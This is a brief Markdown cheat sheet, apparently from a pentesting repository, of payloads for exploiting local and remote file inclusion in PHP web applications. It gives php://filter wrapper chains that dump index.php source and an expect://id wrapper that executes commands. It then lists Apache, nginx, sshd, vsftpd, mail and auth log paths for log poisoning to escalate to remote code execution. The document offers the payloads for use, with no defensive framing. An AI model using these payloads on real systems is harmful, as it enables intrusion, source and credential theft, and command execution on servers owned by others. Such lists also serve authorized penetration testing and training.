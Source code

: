 # Local/Remote File Inclusion (LFI/RFI)

# PHP

- php filters

```
php://filter/read=string.rot13/resource=index.php
php://filter/convert.iconv.utf-8.utf-16/resource=index.php
php://filter/convert.base64-encode/resource=index.php

```

- php expect

```
expect://id

```

# Escalate to RCE

- logs poisoning

```
/var/log/apache/access.log
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/vsftpd.log
/var/log/sshd.log
/var/log/mail
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/auth.log

```